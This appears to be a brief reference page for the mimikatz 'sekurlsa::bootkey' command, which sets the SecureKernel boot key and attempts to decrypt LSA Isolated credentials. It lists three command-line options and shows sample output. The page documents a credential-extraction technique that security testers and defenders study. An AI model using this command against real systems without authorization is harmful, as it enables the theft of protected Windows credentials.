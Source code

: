 # bootkey

It sets the SecureKernel Boot Key and attempts to decrypt LSA Isolated credentials. It has the following command line arguments:

* `/new`: the new Boot key value
* `/raw`: RAW memory search for candidate keys in cache
* `/flush`: it flushes cache

```
mimikatz # sekurlsa::bootkey

Candidate keys in cache:

Current IumMkPerBoot: <none>
```
